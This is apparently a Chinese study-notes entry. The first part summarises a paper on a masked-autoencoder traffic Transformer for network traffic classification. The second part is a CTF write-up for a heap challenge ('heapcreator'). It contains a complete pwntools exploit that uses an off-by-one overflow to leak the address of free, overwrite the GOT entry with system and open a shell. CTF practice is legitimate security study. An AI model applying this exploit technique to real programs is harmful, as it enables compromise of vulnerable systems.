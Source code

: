# 2024-1-28

## Yet Another Traffic Classifier: A Masked Autoencoder Based Traffic Transformer with Multi-Level Flow Representation

### 工作摘要

该论文设计了一个MFR矩阵，通过格式化的矩阵来表示原始流量的多层次信息，并开发了一种新的流量Transformer，以实现在各个层次上更有效的特征提取。为了减少对标记数据的依赖，该论文利用了大规模的未标记数据进行预训练，然后使用少量标记数据进行流量分类。

### 论文思路

预训练方法通过自监督学习显著降低了对标记训练数据的需求，对于流量分类通常将其视为某种语句利用NLP的方法进行预训练。但由于流量字节缺乏明显的高级语义，所以使用CV来提取流量字节的潜在含义更为合适。

但在CV中以往的与训练方法依赖于数据增强以形成成对的正样本和负样本，用于通过对比学习进行预训练。但流量数据的数据增强会严重破坏原始信息无法进行对比学习，而MAE方法则可以通过掩蔽用于中间训练的补丁来构造有效的流量数据预训练模型

![1](image/1.png)

#### MFR矩阵

该方法使用了一个MFR矩阵与格式化的二维矩阵来表示原始流量，首先根据IP地址、端口号和协议类型将原始流量拆分为流。为了避免引入干扰，该方法会删除流的以太网报头，将端口号设置为零，并将IP替换为随机地址，但保持其传播方向。最后，捕获流中的$M$个相邻分组，并将其格式化为大小为$H*W$的二维矩阵。该矩阵拥有以下三种特征

1. 字节层面：MFR流量矩阵中每一行仅包括一种类型的流量字节，分为报头行和有效载荷行
2. 分组层面：每个分组由包头矩阵和有效载荷矩阵表示，形成大小为$H/M*W$的分组级矩阵
3. 流量层面：由于流是由有序的数据包组成的，因此M个相邻的数据包级矩阵在第二维中堆叠以形成最终的MFR矩阵。

该文将MFR矩阵设置为包含5个数据包的矩阵，总共40行，每行包含40个字节。每个数据包的报头由2个80字节的报头行表示，能够包含IP层报头（20字节）、TCP报头（20字节）或UDP报头（8字节）以及可选报头。为每个数据包的有效载荷分配6个有效载荷行，并在超过240字节时执行截断。如果有效字节数不足，则将用0字节填充。

#### Traffic Transformer

根据流量的特点，设计了由嵌入模块、数据包级注意力模块和流级注意力模块组成的Traffic Transformer，并利用MFR矩阵对流量进行有效分类。

##### 嵌入模块

MFR矩阵 $x∈R^{H \times W}$ 会被分成大小为 $P \times P$ 非重叠2D补丁， 数量为 $N=HW/P^2$ ,表示为 $x_p∈R^{N \times P^2}$。然后通过线性层将补丁映射到 $D$ 维向量作为补丁嵌入。为了保持在MFR中至关重要的位置信息，将位置嵌入 $E_{pos}$ 添加到补丁嵌入中作为业务编码器的输入。


$$
x_0 = [x^1_pE;x^2_pE;...;x_p^NE] + E_{pos}
$$
在本文中作者取 $D = 192，P = 2，N = 20*20 = 400$使一个补丁的所有元素都表示相同类型的原始字节，每个包矩阵包含一行报头补丁和三行有效载荷补丁。

##### 数据包级注意力模块

该模块使用了一种基于Vision Transformers的流量编码器

它由交替的多头自注意层（MSA）和前馈层组成。为了优先学习分组内的报头补丁或有效载荷补丁之间的依赖性，业务编码器仅在同一分组中的补丁之间而不是MFR矩阵中的所有补丁之间执行多头自注意。

MSA层允许数据包的补丁根据不同头 $Concat（head1，· · ·，headn）$ 的相关程度有效地相互交互，并且每个头由注意力函数计算：


$$
Q=x_lW^Q,K=x_lW^K,V=x_lW^V
\\
Attn(Q,K,V)=SOFTMAX(  \frac{QK^T}{\sqrt D_k})V
$$
其中$W^Q、W^K、W^V ∈ R^{D×D_k}$是可学习的参数。在这项工作中采用 $n = 16$ 平行注意头和 $L = 4$ 交替层。

##### 流级注意力模块

数据包级注意力模块输出了MFR矩阵 $x∈R^{H \times W}$ 中每个补丁的重要数据包级特征，为了进一步提取数据流上不同包的长距离关系依赖，该文中为了以更粗的粒度学习数据包间的关系采用了行池化（RP），它按行将数据包级注意力模块所输出的补丁的特征进行部分平均池化来生成行补丁。


$$
x_r=Pooling(x^{'}_p)
$$


每个分组包含1个报头行补丁和3个有效载荷行补丁，表示分组内的部分特征，将MFR矩阵中的所有行补丁输入到流量编码器中，MSA层捕获行补丁之间的流级信息。最终输出是一列行补丁特征$x_c ∈ R^{\sqrt{N}×D}$，这些行补丁特征进一步被执行列池化（CP）以获得整个MFR矩阵的最终表示 $x_{MFR} ∈ R^D$：


$$
x_{MFR}=Pooling(x_c)
$$


## Pwn



进入主函数之后是一个功能选取界面，分别是开辟空间，编辑空间，展示空间，释放空间。

![image-20230916122401722](image/2.png)

进入空间开品函数内部，这里一次会开辟两个空间，第一个是0x10大小的空间，分别存储开辟空间的大小和地址，接着正常开辟空间。

![image-20230916123948037](image/3.png)

进入编辑函数我们可以看见他会根据第一个创建空间中的信息进行空间编辑，并且写入的大小会造成**off by one**漏洞，我们可以多输入一个字节来修改空间的大小，我们可以开辟一个0x18大小的空间，这样溢出的字节就可以修改下一个控制空间的大小。这样我们就可以控制下一个控制空间，将其大小改为8，地址改为free的got表，进行输出和修改进行攻击

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh=remote("node4.buuoj.cn",25191)
elf=ELF('./heapcreator')

def create(length,value):
        sh.recvuntil("Your choice :")
        sh.sendline("1")
        sh.recvuntil("Size of Heap : ")
        sh.sendline(str(int(length)))
        sh.recvuntil("Content of heap:")
        sh.sendline(value)
def edit(index,value):
        sh.recvuntil("Your choice :")
        sh.sendline("2")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
        sh.recvuntil("Content of heap : ")
        sh.sendline(value)
def show(index):
        sh.recvuntil("Your choice :")
        sh.sendline("3")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
def delete(index):
    sh.recvuntil('Your choice :')
    sh.sendline('4')
    sh.recvuntil(b'Index :')
    sh.sendline(str(int(index)))

create(0x18,b'aaaa')
create(0x10,b'bbbb')
create(0x10,b'cccc')
create(0x10,b'/bin/sh')

edit(0,b'a'*0x18+b'\x81')
delete(1)

size = b'\x08'.ljust(8,b'\x00')
payload = b'd'*0x40+ size + p64(elf.got['free'])
create(0x70,payload)
show(2)
sh.recvuntil('Content : ')
free_addr = u64(sh.recvuntil('Done')[:-5].ljust(8,b'\x00'))
print(hex(free_addr))
libc=LibcSearcher("free",free_addr)
system_addr=free_addr+libc.dump("system")-libc.dump("free")

edit(2,p64(system_addr))
delete(3)
sh.interactive()
```

